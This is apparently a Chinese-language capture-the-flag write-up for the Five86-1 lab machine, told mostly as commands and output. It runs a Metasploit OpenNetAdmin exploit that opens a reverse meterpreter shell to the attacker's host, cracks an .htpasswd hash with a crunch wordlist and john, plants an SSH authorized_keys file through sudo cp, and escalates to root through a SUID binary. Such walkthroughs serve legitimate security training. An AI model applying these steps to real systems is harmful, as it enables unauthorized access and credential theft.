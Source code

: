 # Five86-1 靶机实践

## 0x01 渗透实践

nmap扫一下开了22和80，

80界面是个OpenNetAdmin

翻下Exploit-db,刚好有对应版本的metasploit exp,下载下来搞一搞

```shell
msfdb init
msfconsole
msf5 > use exploit/47772
msf5 exploit(47772) > set rhost 192.168.31.179
rhost => 192.168.31.179
msf5 exploit(47772) > set lhost 192.168.31.51
lhost => 192.168.31.51
msf5 exploit(47772) > exploit

[*] Started reverse TCP handler on 192.168.31.51:4444
[*] Exploiting...
[*] Sending stage (985320 bytes) to 192.168.31.179
[*] Meterpreter session 1 opened (192.168.31.51:4444 -> 192.168.31.179:59022) at 2020-02-27 21:29:15 +0800
[*] Command Stager progress - 100.14% done (706/705 bytes)

meterpreter >
```

接下来就是慢慢看突破点了

home下目录进不去

找到``/var/www``下有``.htpasswd``

大概就是用来保存一个用户，网站只能得到该用户的权限

```shell
douglas:$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1

# To make things slightly less painful (a standard dictionary will likely fail),
# use the following character set for this 10 character password: aefhrt
```

还贴心了给了提示，方便你构造爆破字典。。。

```shell
root@kali:~/five86# crunch 10 10 aefhrt > dic.txt
Crunch will now generate the following amount of data: 665127936 bytes
634 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 60466176

root@kali:~/five86#
root@kali:~/five86# echo 'douglas:$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1' > hash
root@kali:~/five86# john --wordlist=/root/five86/dic.txt hash
```

爆破拿到``fatherrrrr       (douglas)``

```
meterpreter > shell
Process 2331 created.
Channel 4 created.
python -c "import pty;pty.spawn('/bin/bash')"
www-data@five86-1:~$ su douglas
su douglas
Password: fatherrrrr

douglas@five86-1:/var/www$
```

``sudo -l``看一下

```
douglas@five86-1:~$ sudo -l
sudo -l
Matching Defaults entries for douglas on five86-1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User douglas may run the following commands on five86-1:
    (jen) NOPASSWD: /bin/cp
```

那么我们可以利用jen的权限往他目录下的./ssh添加我们的authorized_keys，就能连接到他的账号了

```shell
cat id_rsa.pub > /tmp/authorized_keys
cd /tmp
chmod 777 authorized_keys
sudo -u jen /bin/cp authorized_keys /home/jen/.ssh
```

```shell
cd .ssh
cp id_rsa /tmp
cd /tmp
chmod 600 id_rsa
ssh -i id_rsa jen@localhost
```

注意id_rsa的文件权限要设置为600,不然会提示

```
Permissions 0777 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
```

登上去``sudo -l``发现需要密码

其实登陆时有个提示是

``You have new mail.``

去读下邮件

找到

```
But anyway, I had to change Moss's password earlier today, so when Moss is back on Monday morning, can you let him know that his password is now Fire!Fire!
```

现在我们可以登陆Moss的账号了

``sudo -l``无果，

看下SUID

```
moss@five86-1:/var/mail$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/bin/mount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/exim4
/home/moss/.games/upyourgame
```

最后一个很有意思

```
moss@five86-1:/var/mail$ /home/moss/.games/upyourgame
/home/moss/.games/upyourgame
Would you like to play a game? yes
yes

Could you please repeat that? yes
yes

Nope, you'll need to enter that again. yes
yes

You entered: No.  Is this correct? no
no

We appear to have a problem?  Do we have a problem? no
no

Made in Britain.
# id
id
uid=0(root) gid=1001(moss) groups=1001(moss)
```

看到``#``试了一下，发现莫名其妙的就已经拿到了root权限。。。。

